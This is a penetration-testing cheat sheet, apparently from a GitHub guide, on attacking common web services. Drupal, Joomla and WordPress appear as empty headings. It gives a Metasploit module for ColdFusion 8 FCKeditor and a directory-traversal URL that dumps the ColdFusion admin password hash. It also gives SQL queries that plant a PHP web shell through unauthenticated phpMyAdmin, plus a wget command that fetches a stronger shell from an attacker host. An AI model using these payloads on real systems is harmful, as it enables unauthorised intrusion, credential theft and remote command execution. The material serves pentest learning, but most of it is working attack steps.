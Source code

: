 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl
It will say something like:
```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR


This works for version 8.0.1. So make sure to check the exact version.
```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password. 
```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

neo-security.xml and password.properties

## Drupal

## Joomla

## Phpmyadmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp. 



## Wordpress
